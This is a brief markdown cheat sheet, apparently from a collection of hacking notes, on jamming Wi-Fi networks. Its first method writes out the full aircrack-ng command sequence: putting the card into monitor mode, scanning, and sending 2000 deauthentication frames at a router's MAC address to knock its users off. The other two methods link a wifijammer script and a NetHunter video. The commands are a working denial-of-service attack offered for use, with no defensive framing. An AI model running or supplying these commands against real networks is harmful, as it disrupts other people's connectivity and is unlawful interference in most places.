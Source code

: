 ## Method 1 - Airplay-ng

Tutorial https://www.youtube.com/watch?v=RdVIlMABYVc

```
airmon-ng start wlan0
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng --bssid xx:xx:xx:xx:xx:xx --channel 6 wlan0mon
aireplay-ng --deauth 2000 -a xx:xx:xx:xx:xx:xx wlan0mon
```

xx:xx:xx:xx:xx:xx is MAC address of the router


## Method 2 - Wifijammer Script

https://github.com/DanMcInerney/wifijammer

Article https://en.kali.tools/?p=394

## Method 3 - Nethunter

https://www.youtube.com/watch?v=UiERtJs-xfE

